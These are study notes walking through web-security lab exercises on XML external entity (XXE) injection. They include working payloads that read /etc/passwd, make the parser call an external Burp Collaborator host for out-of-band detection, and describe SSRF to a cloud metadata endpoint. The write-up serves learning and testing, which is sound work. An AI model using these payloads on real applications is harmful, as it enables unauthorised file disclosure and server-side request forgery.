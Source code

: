 ## Exploiting XXE using external entities to retrieve files
- This lab has a check stock feature that parses XML input and returns any unexpected values in the response. To solve the lab, inject an XML external entity to retrieve the contents of the `etc/passwd` file.
- Let's learn a bit about XXE at first. Web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows viewing of files on the application server filesystem. May also allow interaction with back-end or external systems that the application itself can access.
- Apps use XML format to transmit data between browser and server. Apps that do this virtually always use a standard library or platform API to process the XML data on the server. Vulns arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the app.
- XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.
  - [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)
  - For more on entities, [see](https://www.w3schools.com/xml/xml_dtd_entities.asp). The syntax is as follows: `<!ENTITY entity-name SYSTEM "URI/URL">` Refer to an entity in XML by `&entity-name;`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```

![image](https://github.com/user-attachments/assets/8b7cc000-507d-4896-95cc-c87e5ad1c674)

## Exploiting XXE to perform SSRF attacks 
- Check stock feature parses XML input and returns any unexpected values in the response. Lab is running a simulated EC2 metadata endpoint at the default URL, which is https://169.254.169.254/. Endpoint can be used to retrieve data about the instance, some of which may be sensitive.

![image](https://github.com/user-attachments/assets/9245f007-a1d3-48ce-816c-5e6546fc67be)

## Blind XXE with out-of-band interaction
- Lab has check stock feature that parses XML input but does not display the result. Can detect blind XXE by triggering out-of-band-interactions with an external domain. To solve the lab, use external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2uxjy21khbxivrd3pm9imsl7jyppdf14.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
```

- You should see a DNS and HTTP request in your Collaborator. 
